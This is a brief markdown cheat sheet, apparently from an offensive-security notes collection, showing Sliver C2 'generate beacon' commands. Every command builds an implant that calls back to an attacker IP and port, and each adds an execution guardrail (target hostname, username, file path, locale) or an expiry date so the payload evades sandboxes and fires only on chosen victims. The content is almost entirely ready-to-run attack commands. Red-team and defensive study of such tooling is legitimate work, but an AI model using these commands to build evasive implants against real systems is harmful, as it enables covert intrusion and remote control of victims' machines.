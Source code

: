 ```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - defense-evasion
  - anti-sandbox
  - sliver
  - cross-platform
---
```

# Sliver

Specify the name of the computer you're targeting to trigger the payload.

```
sliver > generate beacon -m <IP>:<PORT> -S 5 -J 10 -z <hostname>
```

Specify the username to trigger the payload.

```
sliver > generate beacon -m <IP>:<PORT> -S 5 -J 10 -y <username>
```

Specify a path to the file to detonate the payload when it detects it.

```
sliver > generate beacon -m <IP>:<PORT> -S 5 -J 10 -F "C:\\local\\path\\to\\file"
```

Specify the locale system to trigger the payload.

```
sliver > generate beacon -m <IP>:<PORT> -S 5 -J 10 -L <locale>
```

Set the expiration date when the payload will stop establishing connection to the C2.

```
sliver > generate beacon -m <IP>:<PORT> -S 5 -J 10 -w <end_of_date>
```